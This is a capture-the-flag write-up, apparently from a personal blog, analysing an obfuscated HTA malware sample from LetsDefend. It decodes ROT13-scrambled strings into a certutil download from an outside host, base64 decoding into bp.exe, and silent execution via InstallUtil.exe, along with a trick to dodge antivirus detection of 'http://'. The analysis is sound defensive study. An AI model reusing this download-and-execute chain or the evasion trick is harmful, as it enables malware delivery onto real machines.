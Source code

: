 ```yaml
---
title: "Let's Defend: Obfuscated HTA"
description: "A small writeup for analysis of an Obfuscated HTA file challenge from LetsDefend."
categories: "LetsDefend"
tags: ["HTML", "HTA", "Malware", "ROT13", "CyberChef"]
date: 2025-02-18T20:43:13-06:00
image: ldef.png
math: 
license: 
---
```

## Description
>A suspicious HTA (HTML Application) file was found on an infected machine. The file is obfuscated to hide its true purpose. Your task is to analyze the code, reverse the obfuscation, and determine what the file is doing. Focus on how the code works and the actions it performs to uncover its true purpose.

## Investigation
The script defines "alph" for the alphabet string, and "ranalph" for presumably randomized alphabet string:
```js
   var alph = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".split("");  
   var ranalph = "NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm".split("");
   var num = "0123456789".split("");  
   var sym = "/$:;-\\%#*&!. ".split("");
```

A careful look can see that `ranalph` is not truly randomized, but rather has the alphabet shifted. `num` stores numbers, and `sym` is for special characters, symbols.

The `scram` function defines a nested loop that exchanges a character from `alph` with the same character number presented in `ranalph`:
```js
var scram = function(sample) {  
       var result = "";  
       for (var x=0; x<sample.length; x++) {  
               for (var y=0; y<alph.length; y++) {  
                       if (sample[x]==alph[y]) {  
                               result+=ranalph[y];  
                       }  
               }  
       for (var s=0; s<sym.length; s++) {  
           if(sample[x]==sym[s]) {  
               result+=sym[s];  
           }  
       }  
       for (var n=0; n<num.length; n++) {  
           if(sample[x]==num[n]) {  
               result+=num[n];  
           }  
       }  
          
       }  
       return result.toString();  
   }
```

As `ranalph` is ROT13 of original, this transforms strings by character shifting 13 letters. Numbers and special characters are also included if they exist in the `sym` or `num` variables. There is not much more to obfuscation, so we can proceed with deobfuscating and answering questions

## Answers


### 1. What is the deobfuscated result of the sample in str1?
In an interesting method to obfuscate, the comments above messages contain the deobfuscated string:
```js
   //certutil.exe -urlcache -split -f    
   var sample = " preghgvy.rkr -heypnpur -fcyvg -s ";
```

Regardless, we can use CyberChef's ROT13 to deobfuscate

![](images/cyberchef.png)

### 2. After deobfuscating the sample in str2, what is the resulting output?

The str2 function:
```js
   // 192.168.49.122:8080/file.txt C:\\Windows\\Tasks\\file.txt  
   sample = "192.168.49.122:8080/svyr.gkg P:\\Jvaqbjf\\Gnfxf\\svyr.gkg" //modify IP:PORT and payload as required;  
   str2 = scram(sample);
```

### 3. What is the deobfuscated result of sample in str3?

```js
   //http://  
   sample = "uggc://"  
   str3 = scram(sample);
```

### 4. What does the sample in str4 translate to after deobfuscation?
```js
   // certutil -decode C:\\Windows\\Tasks\\file.txt C:\\Windows\\Tasks\\bp.exe  
   sample = "preghgvy -qrpbqr P:\\Jvaqbjf\\Gnfxf\\svyr.gkg P:\\Jvaqbjf\\Gnfxf\\oc.rkr";  
   str4 = scram(sample);
```

### 5. What is the deobfuscated result of sample in str5?

```js
   // C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=false /U C:\\Win  
dows\\Tasks\\bp.exe  
   sample = "P:\\Jvaqbjf\\Zvpebfbsg.ARG\\Senzrjbex64\\i4.0.30319\\VafgnyyHgvy.rkr /ybtsvyr= /YbtGbPbafbyr=snyfr /H  
P:\\Jvaqbjf\\Gnfxf\\oc.rkr";  
   str5 = scram(sample);
```

### 6. What is the deobfuscated value of the "wobj" variable?

```js
   //Wscript.shell  
   sample = "Jfpevcg.furyy";  
   wobj = scram(sample);
```

### 7. What is the purpose of the cmd variable in the script?

```js
   //%compspec% is an env var for cmd.exe, set t= sets an env variable containing the string http which defende  
r was flagging on.
   cmd = "%comspec% /v /c \"set t=" + str3 + "&&" + str1 + "!t!" + str2 + "\"";
```

The commented message this time is not the decoded command this time, but considering we have already decoded the variables `str3`, `str1` and `str2` it is a matter of combining the values together:
```
%comspec% /v /c "set t=http://&&certutil.exe -urlcache -split -f!t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
```

Alternatively, the commented commands at the end provide a suggestion you can use to print out the commands
```js
   cmd = "%comspec% /v /c \"set t=" + str3 + "&&" + str1 + "!t!" + str2 + "\"";  
   cmd2 = str4;  
   cmd3 = str5;  
   //alert(cmd);  
   //alert(cmd2);  
   //alert(cmd3);
```

We can paste the script into a javascript sandbox and produce `cmd`, `cmd2` and `cmd3`. Using [JavaScript Playground](https://playcode.io/javascript): 

![](images/javascript_sandbox.png)

```
cmd: %comspec% /v /c "set t=http://&& certutil.exe -urlcache -split -f !t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
cmd2: certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
cmd3: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile /LogToConsolefalse /U C:\Windows\Tasks\bp.exe
```

### 8. What is the second command executed by the "ActiveXObject"

The second command is `cmd2`, so this is answered above. 
```
certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
```

## Impact

Decoding the `cmd` variables directly conveys what the script attempts to accomplish

### cmd
```
%comspec% /v /c "set t=http://&& certutil.exe -urlcache -split -f !t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
```

Using `%comspec%` invokes cmd.exe. `/v` flag allows for variables to be assigned (the "set t=" section), `/c` flag is for executing the following arguments. As commented in the original payload, "http://" is set as a variable and invoked later as `!t!` to avoid antivirus flags.

`certutil.exe` is invoked to download a remote file from the address `http://192.168.49.122:8080/file.txt`, and saved as `C:\Windows\Tasks\file.txt`. 

### cmd2

```
certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
```

`certutil -decode` decodes input from base64, the file `file.txt`. The output is a PE file, `C:\Windows\Tasks\bp.exe`

### cmd3

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile /LogToConsolefalse /U C:\Windows\Tasks\bp.exe
```

Using the .NET Framework assembly installer `InstallUtil.exe` to install the payload `bp.exe`. `LogToConsolefalse` will hide information output to console, effectively acting as a "silent" install.
